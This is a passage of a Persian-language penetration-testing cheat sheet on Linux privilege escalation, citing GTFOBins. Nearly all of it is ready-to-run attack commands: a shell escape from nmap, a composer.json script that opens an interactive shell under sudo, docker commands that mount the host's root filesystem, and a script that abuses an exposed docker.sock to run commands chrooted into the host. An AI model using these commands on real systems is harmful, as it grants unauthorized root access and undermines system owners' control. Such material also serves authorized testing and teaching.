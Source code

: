 ```text
(From within nmap)
!sh
```

 [netsec.ws](http://netsec.ws/?p=337)

## ارتقا دسترسی

راهنما: https://gtfobins.github.io/

### افزایش دسترسی با composer

```text
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

### افزایش دسترسی با docker

باید با کاربردی که عضو گروه docker است وارد شده باشید.

```text
docker run -v /root:/mnt -it ubuntu
```

یا 

```text
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

### افزایش دسترسی با docker socket


```text

بررسیexpose بودن docker

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

دستورات زیر در اسکریپت می کنیم.

cmd="whoami"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$cmd\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)

revShellContainerID=$(echo "$response" | cut -d'"' -f4)

curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"

سپس آن را اجرا می کنیم.

./docket-socket-expose.sh
```
